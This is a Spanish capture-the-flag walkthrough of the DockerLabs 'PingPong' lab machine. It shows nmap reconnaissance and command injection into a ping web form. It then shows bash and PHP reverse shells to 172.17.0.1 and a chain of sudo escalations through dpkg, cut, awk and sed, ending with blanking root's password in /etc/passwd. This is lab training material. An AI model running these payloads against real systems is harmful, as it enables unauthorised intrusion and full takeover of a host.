


Máquina **PingPong** de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio



# Reconocimiento

Comenzaremos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Dec 10 12:52:28 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-10 12:52:28 -03 for 17s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| ssl-cert: Subject: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/organizationalUnitName=Your Unit/localityName=San Francisco
| Issuer: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/organizationalUnitName=Your Unit/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-19T14:20:49
| Not valid after:  2025-05-19T14:20:49
| MD5:   9ba4:3106:4c16:47c8:dc44:cc43:9e96:b3d0
| SHA-1: 5c55:1ab3:9e32:5498:c454:8eb9:e203:a46a:8e7f:bd18
| -----BEGIN CERTIFICATE-----
| MIID4zCCAsugAwIBAgIULigYxnihUEciHsadhZIVB1bHlvowDQYJKoZIhvcNAQEL
| BQAwgYAxCzAJBgNVBAYTAlVTMRMwEQYDVQQIDApDYWxpZm9ybmlhMRYwFAYDVQQH
| DA1TYW4gRnJhbmNpc2NvMRowGAYDVQQKDBFZb3VyIE9yZ2FuaXphdGlvbjESMBAG
| A1UECwwJWW91ciBVbml0MRQwEgYDVQQDDAtleGFtcGxlLmNvbTAeFw0yNDA1MTkx
| NDIwNDlaFw0yNTA1MTkxNDIwNDlaMIGAMQswCQYDVQQGEwJVUzETMBEGA1UECAwK
| Q2FsaWZvcm5pYTEWMBQGA1UEBwwNU2FuIEZyYW5jaXNjbzEaMBgGA1UECgwRWW91
| ciBPcmdhbml6YXRpb24xEjAQBgNVBAsMCVlvdXIgVW5pdDEUMBIGA1UEAwwLZXhh
| bXBsZS5jb20wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDEqLvUG75u
| /h+CCctOKN+mdmVrGB7kj622+bMKv1Nb0tWOkxGJfeTpmofz2F7wYP4G+mgkolsj
| e3Nhzbhuw7jzhHEXTkjaeJdVstODXfr2SO3hzGTFJNf4QAJdidzywO415C6pv/ri
| mZdwBuVTMXRkH/Blz6wInPTx6lPKrHFWmaYnvroa+FyUNFqZpxlKIp/8Ztyi8rQ3
| DOyRGvKD850XJDCtoN8bXBOjNa8aarzC5CM4SJY78WrGYzysrXSrZBQP8ztJnmCN
| gkurONPKidA9q4DbYGzDUrXP2wyPLMgvlwN7hoPDGhldwn6oHJfiMambrOqiNd02
| +4G46l6HNO8bAgMBAAGjUzBRMB0GA1UdDgQWBBRskdiM67+xLIfhKFUDsRTW2iuY
| yzAfBgNVHSMEGDAWgBRskdiM67+xLIfhKFUDsRTW2iuYyzAPBgNVHRMBAf8EBTAD
| AQH/MA0GCSqGSIb3DQEBCwUAA4IBAQAorD07Oh+lrObtJY1cRyMDUdSVzWXqc5C1
| ezcGUsBaRTkbgHNpiAE71aXW6izz+AdFuiadOtJUIZHBbQ4YhrHPGabTeobtSc2W
| 7wg8s7n/PyDVNxPjx6EyNYvANfnQNFSrX4g+Z4ovEmhZP/YiT3L4ChTaB0rkLhmK
| E9aytIGKrh0OqhYD4mZrqCfXcUHpNgRfJQhjCjGdFte4PoPT+nPgua3Hp38sUnGX
| +qrYDZI52+OO6ChEE6Miguz9ji+YdbnPZwpV2mWR2+BWjOgQ5QnSBeorXLjfnLQn
| /a9ezvNvIke18R0FR0AO9/3RX73To5+vo5Bx+fXiREKStlDvh39v
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
5000/tcp open  http     syn-ack ttl 64 Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Ping Test
| http-methods: 
|_  Supported Methods: POST GET HEAD OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 10 12:52:45 2024 -- 1 IP address (1 host up) scanned in 17.00 seconds
```

Como vemos hay 3 puertos:

`80 & 443: Apache httpd 2.4.58`

`5000: Werkzeug httpd 3.0.1 (Python 3.12.3)`

Si revisamos los puertos 80 y 443 no encontraremos nada interesante, pero en el puerto 5000 sí, ya que nos deja ejecutar `ping` hacia la ip que digamos.

Podemos intentar ejecutar comandos de diversas maneras pero por ejemplo, si intentamos poner "--help", la web nos dirá lo siguiente:

```css
Command 'ping -c 4 --help' returned non-zero exit status 2.
```

Esto significa que la web ejecuta lo siguiente:

```css
ping -c 4 $entrada_del_usuario
```

sabiendo esto, podríamos intentar ejecutar comandos poniendo un ";", y asi ejecutar otro comando además de ping:



Como vemos, si se ejecutan los comandos.

# Intrusión

Teniendo una ejecución de comandos, podemos enviar una shell de diversas maneras, yo usé la siguiente:

```css
asdasdasd; bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

Esta nos enviará una shell por el puerto 443, por lo que previamente debemos haber estado escuchando con netcat (`sudo nc -nlvp 443`).

# Escalada de privilegios

### Freddy

Al ser una web con python, somos el usuario que la estaba ejecutando, en este caso "freddy". Luego de hacer el tratamiento de la tty, ejecuto `sudo -l` y veo que puedo ejecutar `dpkg` como el usuario "bobby", por lo que para escalar a bobby, ejecuto el siguiente comando:

```css
sudo -u bobby dpkg -i
```

este nos abrirá como un menú, escribimos `!/bin/bash` y apretamos la tecla enter.

### Bobby

Si ejecutamos `sudo -l` veremos que podemos ejecutar php como el usuario "gladys", pero en esta parte deberemos hacer una cosa, ya que si usamos el método de gtfobins, todo el terminal quedará con lag o bugeado, por lo que para poder escalar a gladys, deberemos crear un archivo en php que nos envié una shell:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/9090 0>&1'");
?>
```

como la máquina no tiene nano ni vim ni nvim, dejo este oneliner que lo crea automáticamente con los permisos correctos:

```css
echo '<?php' > /tmp/shell.php && echo "system('bash -c \"bash -i >& /dev/tcp/172.17.0.1/9090 0>&1\"');" >> /tmp/shell.php && echo '?>' >> /tmp/shell.php && chmod 777 /tmp/shell.php
```

Una vez ejecutamos lo de arriba, solo nos queda escuchar en el puerto 9090 (`nc -nlvp 9090`) y enviar la shell como gladys:

```css
sudo -u gladys php /tmp/shell.php
```

### Gladys

Como gladys, ejecuto `sudo -l` y veo que puedo ejecutar `cut` como el usuario "chocolatito", y si buscamos que archivos pertenecen a este (`find / -user chocolatito 2>/dev/null`) veremos que en "/opt/" se encuentra un txt con su contraseña, pero no podemos leerlo, pero como si podemos ejecutar `cut` como chocolatito, lo usaremos de la siguiente manera para leer el archivo:

```css
sudo -u chocolatito cut -d "" -f1 "/opt/chocolatitocontraseña.txt"
```

Una vez lo ejecutamos, obtendremos la contraseña, y escalaremos ejecutando `su chocolatito` y poniendo la contraseña obtenida.

### Chocolatito

Siendo chocolatito, podemos ejecutar `awk` como el usuario "theboss", por lo que para escalar ejecutamos lo siguiente:

```css
sudo -u theboss awk 'BEGIN {system("/bin/bash")}'
```

### TheBoss

Como theboss, podemos ejecutar `sed` como root, por lo que para escalar a root, debemos modificar el passwd y hacer que al ejecutar `su` nos haga root sin necesidad de contraseña. Para esto debemos ejecutar lo siguiente:

```css
sudo sed -i 's/root:x:/root::/g' /etc/passwd
```

Ejecutamos `su` y ya seremos root.

## Root


Gracias por leer :)